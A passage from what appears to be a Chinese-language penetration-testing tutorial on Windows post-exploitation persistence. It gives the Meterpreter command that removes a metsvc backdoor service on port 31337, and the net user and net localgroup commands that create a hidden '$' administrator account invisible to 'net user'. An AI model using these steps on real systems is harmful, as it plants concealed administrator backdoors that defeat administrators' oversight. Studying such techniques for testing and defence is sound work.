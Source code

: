 默认绑定在31337端口

![](../../.gitbook/assets/image%20%28321%29.png)

### 3、删除服务

如果想删除服务，可以执行 

```text
meterpreter > run metsvc -r
```

## 9、影子用户

### 1、创建隐藏用户

影子用户顾名思义就是一个隐藏用户，只能通过注册表查看这个用户，其它方式是找不到这个用户的信息的 在用户名后面加一个$可以创建一个匿名用户，创建完毕后我们再把这个用户添加到administrator组 

```text
net user test$ test /add 
net localgroup administrators test$ /add 
```

可以看到net user是看不到我们创建的用户

![](../../.gitbook/assets/image%20%28342%29.png)

但是计算机管理-用户和组中可以看到

![](../../.gitbook/assets/image%20%28358%29.png)
